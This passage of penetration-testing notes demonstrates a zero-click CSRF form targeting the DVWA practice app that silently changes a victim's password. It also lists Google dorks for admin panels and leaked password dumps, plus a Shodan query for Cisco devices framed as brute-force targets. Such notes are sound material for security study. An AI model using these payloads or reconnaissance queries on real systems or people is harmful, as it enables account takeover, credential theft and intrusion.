 even more, the HTML change with some JavaScript doesn't even require the user to click:

```HTML
<h3>No need to click - no button</h3>
<form action="http://owaspbwa.com/dvwa/vulnerabilities/csrf"  method="GET" name="myForm" id="myForm"> <!-- explicitly change the action URL of the GET method with the one of the page where the form exists-->
<input type="hidden" name="password_new" value="111"> <!-- hide the pass input for the victim -->
<input type="hidden" name="password_conf" value="111"> <!-- hide the new pass input for the victim -->
<input type="hidden" value="Change" name="Change"> <!-- hide the button for the victim, the script will submit the form -->
</form>
<script>
document.forms["myForm"].submit();
</script>
```

## Information Gathering Through the Internet

### Google Hacking: Looking for Sensitive Pages

- ``inurl:co.uk inurl:admin`` #use this in Google search in order to find administrator panels in sites that have .co.uk superdomain
- ``filetype:sql hotmail gmail password``
- ``site:/com:8443``
- ``intitle:index.of``

### Google Hacking Database - crawls WWW

[https://www.exploit-db.com/google-hacking-database](https://www.exploit-db.com/google-hacking-database) 

The Google Hacking Database (GHDB) is an authoritative source for querying the ever-widening reach of the Google search engine. In the GHDB you'll find search terms for files containing usernames, vulnerable servers, and even files containing passwords.

When the Google hacking database was integrated in the exploit database of offensive security, the various Google talks contained in the thousands of exploit entries, were entered into the GHDB. The direct mapping allows penetration testers to more rapidly determine if a particular web application has a publicly available exploit.

### Shodan - crawls Internet

Shodan - crawls Internet [https://ics-radar.shodan.io/](https://ics-radar.shodan.io/) and finds all devices connectected to the internet. 
Go to: www.shodan.io page. Search example: ``cisco last-modified country:GB`` . In the seach result you will get access to CISCO interfaces where you(the attacker) can perform Brute Force Attacks - or even worst (for the victim), get access to a CISCO device manager interface :-|.

### pipl.com, checkusernames.com - gather info about people

pipl.com - gather info that other search engines miss about people.
checkusernames.com - searches inside 160 networks for an user name
